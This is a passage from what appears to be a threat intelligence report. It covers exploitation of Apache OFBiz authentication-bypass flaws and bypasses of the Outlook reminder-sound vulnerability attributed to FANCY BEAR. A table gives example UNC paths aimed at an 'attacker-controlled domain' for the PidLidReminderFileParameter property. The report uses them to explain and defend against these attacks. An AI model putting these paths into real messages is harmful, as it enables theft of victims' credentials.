# CROWDSTRIKE 2025 GLOBAL THREAT REPORT

Disclosing a vulnerability, particularly one acknowledged as exploited in the wild, highlights potentially viable mechanisms for future exploitation. For example, in September 2024, CrowdStrike Intelligence observed multiple POST requests consistent with exploiting a direct request vulnerability in Apache OFBiz (CVE-2024-45195). These POST requests mirrored CVE-2024-45195 exploitation guidance that a well-known industry source had published two weeks earlier. CVE-2024-45195 results from the option to desynchronize the `requestUri` and `overrideViewUri` variables in the `RequestHandler` component of the OFBiz Java application logic.

CVE-2024-45195 is similar to earlier vulnerabilities (CVE-2024-32113, CVE-2024-36104, and CVE-2024-38856) that also exploited desynchronization capabilities to allow unauthorized users to bypass authentication mechanisms. Though the vendor has provided multiple patches and several industry sources have publicly discussed these vulnerabilities, the core flaw persists and allows attackers to manipulate the controller-view state.

Separately, in January 2024, CrowdStrike Intelligence assessed threat actors had almost certainly leveraged CVE-2023-29324 in recent spear-phishing operations. CVE-2023-29324 bypasses Microsoft’s mitigations for a previously disclosed Microsoft Outlook vulnerability (CVE-2023-23397), which **FANCY BEAR** has very likely exploited since at least March 2022 to target organizations in multiple regions and sectors. The same researcher that discovered the initial bypass (CVE-2023-29324) later found another bypass (CVE-2023-35384).

An attacker can trigger both bypasses by inserting a Universal Naming Convention path into either a Server Message Block (TCP 445) or WebDAV share on an attacker-controlled server into the MAPI property named `PidLidReminderFileParameter` (Figure 18).

| CVE Number        | Example Path                                                                          |
|-------------------|---------------------------------------------------------------------------------------|
| CVE-2023-23397    | \\attacker-controlled domain\file.wav                                                 |
| CVE-2023-29324    | \\UNC\\attacker-controlled domain\file.wav                                            |
| CVE-2023-35384    | \\UNC/C$/.../attacker-controlled domain/file.wav                                      |

**Figure 18.** `PidLidReminderFileParameter` examples showing CVE-2023-23397, CVE-2023-29324, and CVE-2023-35384 exploitation